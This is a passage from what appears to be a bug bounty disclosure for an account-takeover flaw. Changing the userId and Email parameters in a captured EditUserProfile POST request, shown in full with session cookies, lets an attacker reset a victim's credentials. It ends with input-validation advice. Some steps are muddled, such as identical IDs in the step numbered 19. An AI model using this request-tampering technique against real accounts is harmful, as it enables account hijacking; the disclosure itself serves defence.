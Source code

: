 ```javascript
```
16. And now you can change the  victims ID to your test account's ID.
17. But when you change your ID to victim's ID example:

```javascript
POST /████████/EditUserProfile/Save HTTP/1.1
Host: █████████
Cookie: .AspNetCore.Antiforgery.w; TS014b77bb=; .AspNetCore.Mvc.CookieTempDataProvider=CfDJ8NZcuopxrrlAnVqYGUtWQxtsA-gq_U4VzTT_UPVtffN4Mp5xSVzjEI6YzVkINoX_FoCmnYWsUdpP1PX2y57UYI527e0mBw40qounVa_WpXWkEiRpco5mBm8LQVC0y_XBbRbcAGbytrA24EqhocKSOupfTKtFzK-iB_2L9ekRNotla0UYoapvcWFDrQZ-KUQn0O65nIfoxkr6gu9jl3nhpy0; .AspNetAuth=CfDJ8NZcuopxrrlAnVqYGUtWQxuUeFWKVXEqlOxL4TNcHc5b0VL5A7Lnq1diP3edMqJn024bJDCv72IDREsFTjeownrswgIQhDCRm_pDHpxUl6_FRedhYqLjnIV5TzDmQgGT6_QoN5XVl-v9n2B5fmWKcfASedgyauzJzwBwafxFKjbIBpmm5oZoBHuDuVTUDFsreYhEbHVPoQDppRn2VhUQ5Vo-QjWelfM8Vi0R8XS98tC1r0j5npE_JKl-GcWXdtzXIgYLS9t9X05kp3a2dcTTUue33v_4taplSArGZzlHWHLYpMz3tLPE07hTkBrjvKCdpw; ASP.NET_SessionId=; TS0144f203=01d263603a2c7f22f24b6e3dc5545eac2dac86e22b777fbefec77dd724498f634cba9a604948cca126e23e438871080faec4034c4fabc579539aadf5f7b2713082206f08b6604332ce5d3a8f14b0f98a460f109128752513a960c47e1656d275e66a06feee; CSRF-TOKEN=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: hr,hr-HR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 537
Origin: https://████████
Referer: https://██████████/██████/EditUserProfile
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

Email=victim@gmail.com&PositionTitleIds=10&Title=Pentester&FirstName=attacking&MiddleName=test&LastName=wearehackerone&PhoneNumber=&LanguageId=&Password=&ConfirmPassword=&userId=123465&passChange=true&PersonProfileId=0&CitizenshipId=101&__RequestVerificationToken=
```
18. Now change to Email parameter to this mail: ██████
19. Update userId parameter from  123464 (attackers ID) to 123464 (tests ID or victims ID).
19. Make sure you changed email.
20. Now send request.
21. Now try to login as a  █████████ with attackers password.
22. You will see it works.

This might sound really confusing report. But believe me it is. I was working on this whole morning. Also follow that redirection in burp suite.

## Suggested Mitigation/Remediation Actions
Web-applications should validate all untrusted input received with every HTTP request. Your applications should perform whitelist validation on each input, verifying that the incoming value meets your applications’ expectations pertaining to:

    Minimum or maximum length
    Minimum or maximum bounds for numeric values
    Acceptable characters
    Data Types like string, date, integer, or rational
    Set membership
    Pattern such as phone number, social security, or employer ID
